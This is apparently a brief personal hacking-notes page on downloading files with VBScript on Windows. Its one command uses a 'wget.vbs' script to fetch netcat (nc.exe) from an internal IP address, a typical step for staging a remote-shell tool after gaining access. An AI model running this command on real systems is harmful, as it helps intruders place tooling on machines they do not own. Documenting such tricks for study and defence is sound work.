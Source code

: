 # VBScript Download Files

```
cscript wget.vbs http://192.168.0.1/nc.exe nc.exe
```

# Related
- [20221003151230](/zet/20221003151230/README.md) VBScript
- ~/kb/hacking/tricks/vbscript-wget-hack.md

Tags:
    #assorted #hacking #trick #vbscript
